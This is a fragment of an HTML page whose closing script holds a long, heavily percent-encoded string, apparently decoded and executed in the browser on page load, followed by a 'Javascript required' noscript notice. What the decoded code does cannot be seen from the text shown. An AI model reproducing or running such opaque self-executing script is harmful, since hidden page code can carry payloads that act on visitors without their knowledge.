7d%7b%72%7b%84%3e%3c%81%34%38%86%34%3a%85%65%30%75%3f%6c%3a%3b%89%3f%3f%89%3b%3f%80%39%3d%84%3e%37%81%89%60%32%75%38%3e%3a%6d%3d%6c%84%81%81%89%85%63%3d%7d%3e%3a%38%3f%84%61%35%7d%30%38%39%32%81%60%34%78%31%3c%32%68%81%34%3f%86%6c%35%79%39%3d%30%6c%32%66%81%6c%31%7a%32%69%3e%3a%3c%61%84%61%35%7d%31%6c%6d%32%36%6f%80%3e%41%84%30%7d%37%89%60%32%75%37%62%3d%62%3e%6f%84%3c%3e%89%71%7d%70%6d%85%79%68%66%6e%7c%81%35%75%32%6e%30%81%3f%38%84%3d%78%32%37%38%89%31%7a%3e%68%39%80%61%3d%78%3d%37%67%60%6d%6e%89%35%79%37%6c%36%84%79%6d%6e%79%6e%86%6c%35%79%39%62%60%3c%6c%67%81%6c%31%7a%31%66%33%3f%3b%62%84%30%7d%36%6f%63%86%6c%35%79%3b%3e%35%32%62%69%81%3d%79%31%6f%6a%85%34%78%3e%6c%6c%81%64%3d%79%3f%30%3e%6d%6a%6f%89%30%78%36%69%32%85%63%3d%7d%3e%67%33%6f%38%6f%81%35%75%38%86%6c%35%79%36%3e%35%38%39%35%81%6c%31%7a%31%35%3a%6b%3d%31%84%6b%6b%81%3d%79%31%61%36%85%34%78%30%84%62%77%6a%6e%74%86%62%71%7c%6b%84%3d%78%33%69%3d%89%31%7a%3e%68%6e%80%30%75%33%38%36%81%60%62%7e%60%6d%85%34%78%32%84%30%7d%36%60%62%86%3d%7d%32%68%30%89%30%78%36%68%60%85%32%75%36%62%3b%84%3d%78%33%69%66%89%31%7a%3e%3c%85%34%78%3e%6c%32%81%35%75%32%6f%61%81%31%7c%33%6f%6c%84%35%7d%3e%6d%3e%89%35%79%37%62%6e%84%7c%77%7e%89%31%7a%3e%68%6f%80%61%3d%78%33%68%3a%35%3e%30%89%64%31%7c%3d%30%62%32%36%3b%89%60%32%75%3a%6d%39%6f%63%62%84%64%35%75%3d%31%34%37%39%3f%84%3d%78%33%68%35%89%31%7a%3e%68%3d%80%30%75%33%6d%3c%81%3d%79%31%60%3b%85%34%78%3e%62%6d%81%64%3d%79%3f%63%37%6d%3b%6e%89%30%78%36%68%36%85%32%75%36%63%6a%84%6c%30%78%39%35%60%6c%3e%33%81%31%7c%33%60%3d%84%35%7d%3e%6d%3b%89%35%79%37%6d%3f%84%30%7d%36%60%3e%86%3d%7d%32%68%62%89%30%78%36%68%6f%85%32%75%36%6d%69%84%6c%30%78%3a%37%3e%32%3f%31%81%31%7c%33%61%3e%84%64%35%75%3d%3e%32%37%3f%34%84%3d%78%33%68%36%89%3f%40%89%35%79%37%39%6f%84%61%35%7d%32%3c%61%60%36%38%80%84%3d%78%3c%35%35%89%85%86%3d%7d%33%36%3c%89%6c%71%68%7a%7a%6e%74%71%81%31%7c%32%3f%62%84%35%7d%3e%32%6e%62%81%31%7c%3e%30%6d%3e%37%81%3d%79%3e%3e%3b%85%34%78%3e%6e%84%35%7d%34%31%6f%89%35%79%37%38%63%6c%84%35%7d%35%3a%3f%89%35%79%37%3b%89%30%78%36%6b%60%85%32%75%36%3c%80%30%75%32%30%6a%81%3d%79%30%3e%39%85%34%78%3e%6f%38%67%81%72%77%6d%70%68%62%74%6f%89%30%78%37%37%89%31%7a%3e%66%33%80%30%75%3d%62%69%39%89%31%7a%3e%69%31%3a%84%3d%78%3d%3a%81%3d%79%3e%89%35%79%3a%84%3d%78%33%3d%38%89%31%7a%3e%3d%3e%80%30%75%38%84%35%7d%36%85%32%75%3e%3e%80%30%75%33%6f%68%81%3d%79%3d%36%81%31%7c%38%63%39%62%37%81%6c%31%7a%32%38%32%36%62%62%84%30%7d%37%36%3a%86%3d%7d%3c%6a%6c%89%84%84%81%64%3d%79%31%60%3a%3a%38%39%89%30%78%37%35%36%85%32%75%66%85%34%78%3e%63%6e%81%35%75%39%31%3d%3d%6d%80%30%75%6f%6d%35%3e%63%85%32%75%3a%31%3f%84%30%3d%30%68%75%52%57%58%58%81%33%38%32%3e%3c%57%69%5a%79%79%6a%89%3e%6b%59%4c%67%76%51%81%3c%35%85%32%75%36%6f%6b%84%3e%3d%3c%3c%37%62%51%68%7c%69%6b%80%3b%30%3b%3f%3a%3d%32%62%6e%60%72%4e%7f%84%33%3f%30%3b%38%30%57%5e%64%5c%57%52%84%3d%78%33%6b%38%89%32%30%36%3d%3a%3d%3b%47%76%6a%4c%78%5e%85%3d%31%50%6b%50%4e%5a%76%84%38%3c%3d%33%3d%35%3c%69%4b%76%72%70%43%81%64%3d%79%30%3f%38%32%39%33%89%84%84%37%3e%3f%31%3f%36%3b%50%47%42%77%6d%57%81%3c%33%3a%3d%3f%35%31%77%6b%44%54%49%7e%81%89%85%3a%31%3e%31%34%38%5c%57%4d%4f%71%45%85%3d%34%37%3d%37%33%7e%5e%76%6b%66%53%85%3f%62%4e%7f%70%49%40%84%79%77%6e%71%6e%86%35%52%52%5f%6a%7c%6a%84%3c%46%89%33%3c%32%38%38%3b%32%71%76%48%51%5f%46%85%31%36%35%6b%6e%79%67%7c%69%81%3c%41%85%32%75%36%3e%37%84%3d%78%32%36%3d%89%3f%3a%33%35%3d%36%30%70%59%49%6f%5e%53%85%32%75%36%32%66%84%3d%78%6d%3a%66%89%31%7a%3e%39%32%66%84%3d%78%33%3b%3a%6e%85%32%75%3d%62%3a%84%3d%78%32%36%39%63%85%32%75%36%62%67%30%89%30%78%3c%66%3f%85%32%75%37%32%66%84%3d%78%3d%3c%37%89%31%7a%3f%3b%3a%6a%84%3d%78%33%3b%35%35%85%31%35%5c%4b%68%70%5a%54%84%35%7d%60%85%3d%3d%39%3a%36%33%33%50%6b%6d%58%5b%5d%86%3d%7d%33%36%39%89%30%78%69%3d%61%85%32%75%37%3c%39%30%89%84%84%81%81%89%31%7a%3e%6a%6f%80%30%75%63%3e%3a%81%3d%79%31%34%6b%31%80%30%75%33%3b%66%3c%89%31%7a%3f%36%6d%80%30%75%33%3b%3e%81%3d%79%31%36%39%85%37%3b%33%32%30%39%35%5a%50%79%56%75%71%80%30%75%33%62%39%81%3d%79%31%35%68%85%34%78%3e%38%3c%81%35%75%32%39%3d%81%31%7c%33%36%3d%84%35%7d%3e%3a%61%89%35%79%37%62%35%84%30%7d%36%6f%32%86%3d%7d%32%3c%62%89%30%78%36%67%30%85%32%75%36%3a%3c%84%3d%78%33%3e%3a%89%31%7a%3e%67%3f%80%30%75%33%38%6a%81%3d%79%31%35%69%85%34%78%3e%38%63%81%81%3d%79%31%36%36%85%34%78%3e%38%30%81%35%75%32%61%33%81%31%7c%33%6e%3d%84%35%7d%3e%6e%61%89%35%79%37%38%35%84%30%7d%36%6e%63%86%3d%7d%32%3d%6d%89%30%78%36%3c%61%85%32%75%36%63%3b%84%3d%78%33%67%3e%89%31%7a%3e%3c%6f%80%30%75%33%63%39%81%34%43%86%3d%7d%32%67%6d%89%30%78%36%66%34%85%32%75%36%3a%36%84%3d%78%33%3d%37%89%31%7a%3e%66%32%80%30%75%33%62%35%81%3d%79%31%36%6b%85%34%78%3e%38%3b%81%35%75%32%39%62%81%31%7c%33%6f%32%84%35%7d%3e%3a%3c%89%35%79%37%63%61%84%30%7d%36%6e%6e%86%3d%7d%32%67%30%89%30%78%36%66%36%85%32%75%36%3a%68%84%3d%78%33%66%66%89%31%7a%3e%3d%6f%80%30%75%33%39%6a%81%3d%79%31%6e%3d%85%34%78%3e%3b%39%81%35%75%32%39%60%81%31%7c%33%35%39%84%35%7d%3e%39%3c%89%35%79%37%3b%6f%84%30%7d%36%63%33%86%3d%7d%32%66%39%89%30%78%37%36%6e%85%32%75%37%31%39%84%3d%78%32%35%68%89%31%7a%3e%6b%3e%80%30%75%32%33%3c%81%3d%79%31%61%6b%85%34%78%3f%30%3e%81%35%75%32%6d%34%81%31%7c%33%63%3b%84%35%7d%3f%31%3d%89%35%79%37%6e%61%84%30%7d%37%3e%33%86%3d%7d%32%6b%6c%89%30%78%36%6b%35%85%32%75%37%31%36%84%3d%78%33%6a%6a%89%31%7a%3f%37%3e%80%30%75%32%30%3c%81%3d%79%31%62%3d%85%34%78%3f%33%3b%81%35%75%32%6d%32%81%31%7c%32%3f%33%84%35%7d%3e%6e%60%89%35%79%36%33%3e%84%30%7d%36%62%33%86%3d%7d%32%6b%3d%89%30%78%37%35%6e%85%32%75%36%6e%34%84%3d%78%32%36%38%89%31%7a%3f%36%6c%80%30%75%33%6e%3b%81%3d%79%30%3f%35%85%34%78%3f%32%32%81%35%75%33%32%3e%81%31%7c%33%63%33%84%35%7d%3f%31%3a%89%35%79%36%33%62%84%30%7d%37%3e%31%86%3d%7d%33%34%6e%89%30%78%36%69%62%85%32%75%36%6f%34%84%3d%78%32%36%3b%89%31%7a%3e%6b%6f%80%30%75%32%33%6b%81%3d%79%31%63%3c%85%34%78%3e%6e%63%81%35%75%33%32%6f%81%31%7c%32%3d%30%84%35%7d%3e%6f%60%89%35%79%36%33%32%84%30%7d%37%3d%3d%86%3d%7d%33%36%3e%89%30%78%36%6a%36%85%32%75%36%6e%37%84%3d%78%33%6a%39%89%31%7a%3f%35%6d%80%30%75%33%6e%39%81%3d%79%31%62%3b%28%30%29%33%30%3c%3b%3e%33%6b%4c%51%47%76%5e%29%6a%45%61%35%7d%30%6f%3e%62%42%6f%7b%76%60%7c%6b%74%73%25%2a%87%7f%6a%7d%7b%72%7b%20%61%35%7d%3f%32%61%33%39%38%41%87%48%72%6f%79%7a%7f%77%22%6c%35%79%39%6e%31%6f%28%2e%40%8a%16%08%1a%0f%45%35%7d%60%72%6b%75%79%4b21763762%35%35%30%30%38%34%37' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>
